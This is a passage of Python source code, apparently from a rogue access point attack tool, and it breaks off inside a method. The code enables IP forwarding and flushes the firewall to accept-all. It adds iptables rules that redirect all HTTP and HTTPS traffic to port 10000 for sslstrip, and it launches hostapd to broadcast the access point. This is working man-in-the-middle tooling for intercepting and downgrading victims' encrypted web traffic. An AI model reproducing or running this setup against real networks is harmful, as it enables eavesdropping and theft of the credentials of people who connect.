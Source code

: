 def enable_packet_forwarding():

    with open('/proc/sys/net/ipv4/ip_forward', 'w') as fd:
        fd.write('1')

def disable_packet_forwarding():

    with open('/proc/sys/net/ipv4/ip_forward', 'w') as fd:
        fd.write('0')

class IPTables(object):

    _instance = None
    
    def __init__(self):
        
        self.running = False
        self.reset()

    @staticmethod
    def get_instance():
        
        if IPTables._instance is None:
            IPTables._instance = IPTables()
        return IPTables._instance

    def route_to_sslstrip(self, phys, upstream):

	    bash_command('iptables --table nat --append POSTROUTING --out-interface %s -j MASQUERADE' % phys)
	    
	    bash_command('iptables --append FORWARD --in-interface %s -j ACCEPT' % upstream)
	
	    bash_command('iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000')
	    bash_command('iptables -t nat -A PREROUTING -p tcp --destination-port 443 -j REDIRECT --to-port 10000')
	
	    bash_command('iptables -t nat -A POSTROUTING -j MASQUERADE')

    def reset(self):

        bash_command('iptables -P INPUT ACCEPT')
        bash_command('iptables -P FORWARD ACCEPT')
        bash_command('iptables -P OUTPUT ACCEPT')

        bash_command('iptables --flush')
        bash_command('iptables --flush -t nat')

class HostAPD(object):

    _instance = None
    
    def __init__(self):
        
        self.running = False
        self.conf = HOSTAPD_CONF

    @staticmethod
    def get_instance():
        
        if HostAPD._instance is None:
            HostAPD._instance = HostAPD()
        return HostAPD._instance

    def start(self):

        if self.running:
            raise Exception('[Utils] hostapd is already running.')

        self.running = True
        bash_command('hostapd %s' % self.conf)
        time.sleep(2)

    def stop(self):

        if not self.running: